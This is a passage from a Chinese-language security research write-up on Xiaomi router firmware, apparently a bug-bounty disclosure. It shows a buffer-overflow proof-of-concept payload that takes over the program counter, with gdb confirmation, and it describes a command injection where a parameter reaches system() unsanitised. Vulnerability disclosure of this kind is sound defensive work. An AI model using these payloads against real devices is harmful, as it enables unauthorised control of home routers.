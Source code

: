 ```
}
```  
  
  
然后我们可以生成一个快速 PoC 来覆盖返回地址并将程序计数器设置PC为0xdeadbeef：  
  
  
第一个有效载荷  
  
```
{
    [...]
    // payload is basically the same as the previous one
    // mac: A * 81 + 0xdeadbeef (URL encoded)
    "mac":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%de%ad%be%ef"
    [...]
}
```  
  
  
第二个有效载荷  
  
```
{
    "command":"scene_start_by_crontab",
    "time":"2:2",
    "week":0
}
```  
  
  
然后我们可以在 gdb 中检查我们是否有效地控制了PC：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexa7YMMkONpKcUPiaiaVwdsc8pYds4QSwBYWwZiaCU7olomY05eGcSCevSxBjn2mticUl3PWMo17NnTA/640?wx_fmt=png&from=appmsg "")  
  
sprintf不幸的是，由于该漏洞来自格式化程序的使用%s，因此我们不能在有效负载中使用 NULL 字节。因此，我们不能使用 ROP 小工具在二进制文件中执行任意代码，因为我们知道二进制文件的基地址是0x00400000（以 NULL 字节开头），并且由于字节顺序，我们不能仅仅进行部分地址覆盖。  
  
  
例如，漏洞利用需要 ASLR 暴力破解（这在 32 位系统上是合理的）或 ASLR 泄漏。不幸的是，二进制文件崩溃时不会重新启动，因此几乎不可能进行暴力破解，但它仍然是一种 DoS。由于我们已经发现了几个 RCE，因此我们决定不再花太多时间在这个不平凡的漏洞利用上。  
  
  
端点/api/xqsmarthome/request_smartcontroller- 另一个命令注入  
  
在向小米提交了之前的报告后，我们对 LAN 授权后研究感到满意，因为我们找到了一种在路由器上获取 root shell 的方法，并且还发现了符合其错误赏金计划的非重复 RCE。  
  
  
然而，很快，对该程序的第二次通读smartcontroller发现了另一个命令注入。不幸的是，我们之前关于二进制文件的报告引起了小米的注意，他们显然在我们的报告之前不久就发现了这种注入。它再次重复，但它教会我们在匆忙报告错误之前完全完成安全审核。  
  
  
feedPush第二个命令注入位于我们重命名为 的方法中0x405384。该scene_name参数是直接注入的，system()没有在run_cmd_arg函数中进行任何清理。  
  
```
int32_t run_cmd_arg(char* cmd, char* arg)
{
    int32_t ret;
    if (is_empty_str(cmd) != 0)
    {
        ret = 0;
    }
    else
    {
        if (is_empty_str(arg) != 0)
        {
            return run_cmd(cmd);
        }
 
        int32_t len = strlen(cmd) + strlen(arg) + 5;
        char* final_command = malloc(len);
        memset(final_command, 0, len);
```